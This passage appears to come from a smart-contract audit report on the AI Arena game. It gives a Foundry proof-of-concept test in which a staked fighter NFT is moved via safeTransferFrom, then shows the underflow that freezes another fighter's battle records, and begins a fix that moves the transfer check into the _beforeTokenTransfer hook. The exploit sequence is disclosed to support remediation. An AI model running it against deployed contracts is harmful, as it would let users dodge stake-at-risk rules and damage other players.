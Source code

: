 ```diff
+    // On the game server, player1 initiates a battle with fighter1,
+    // then unstakes all remaining stake from fighter1, and transfers it
+    vm.prank(address(player1));
+    _rankedBattleContract.unstakeNRN(999 * 10 ** 18, fighter1);
+    vm.prank(address(player1));
+    _fighterFarmContract.safeTransferFrom(player1, player2, fighter1, "");
+    assertEq(_fighterFarmContract.ownerOf(fighter1), player2);
+    // Fighter1 wins a battle, and part of its stake-at-risk is derisked.
+    vm.prank(address(_GAME_SERVER_ADDRESS));
+    _rankedBattleContract.updateBattleRecord(fighter1, 0, 0, 1500, true);
+    assertEq(_rankedBattleContract.amountStaked(fighter1), 1 * 10 ** 15);
+    // Fighter2 wins a battle, but the records can't be updated, due to underflow!
+    vm.expectRevert();
+    vm.prank(address(_GAME_SERVER_ADDRESS));
+    _rankedBattleContract.updateBattleRecord(fighter2, 0, 0, 1500, true);
+    // Fighter2 can't ever exit from the losing zone in this round, but can lose battles
+    vm.prank(address(_GAME_SERVER_ADDRESS));
+    _rankedBattleContract.updateBattleRecord(fighter2, 0, 2, 1500, true);
+    (uint32 wins, uint32 ties, uint32 losses) = _rankedBattleContract.getBattleRecord(fighter2);
+    assertEq(wins, 0);
+    assertEq(ties, 0);
+    assertEq(losses, 2);
+}
+
     /*//////////////////////////////////////////////////////////////
                                HELPERS
     //////////////////////////////////////////////////////////////*/
```
Place the PoC into test/RankedBattle.t.sol, and execute with
```shell
forge test --match-test testExploitTransferStakeAtRiskFighterAndSpoilOtherPlayer
```

## Lines of code
https://github.com/code-423n4/2024-02-ai-arena/blob/70b73ce5acaf10bc331cf388d35e4edff88d4541/src/FighterFarm.sol#L338-L348
https://github.com/code-423n4/2024-02-ai-arena/blob/70b73ce5acaf10bc331cf388d35e4edff88d4541/src/FighterFarm.sol#L355-L365
https://github.com/code-423n4/2024-02-ai-arena/blob/f2952187a8afc44ee6adc28769657717b498b7d4/src/RankedBattle.sol#L486
https://github.com/code-423n4/2024-02-ai-arena/blob/70b73ce5acaf10bc331cf388d35e4edff88d4541/src/StakeAtRisk.sol#L104

## Tool used
Manual Review

## Recommended Mitigation Steps
We recommend to remove the incomplete checks in the inherited functions transferFrom() and safeTransferFrom() of FighterFarm contract, and instead to enforce the transferability restriction via the _beforeTokenTransfer() hook, which applies equally to all token transfers, as illustrated below.
```diff
diff --git a/src/FighterFarm.sol b/src/FighterFarm.sol
index 06ee3e6..9f9ac54 100644
--- a/src/FighterFarm.sol
+++ b/src/FighterFarm.sol
@@ -330,40 +330,6 @@ contract FighterFarm is ERC721, ERC721Enumerable {
         );
     }
 
-    /// @notice Transfer NFT ownership from one address to another.
-    /// @dev Add a custom check for an ability to transfer the fighter.
-    /// @param from Address of the current owner.
```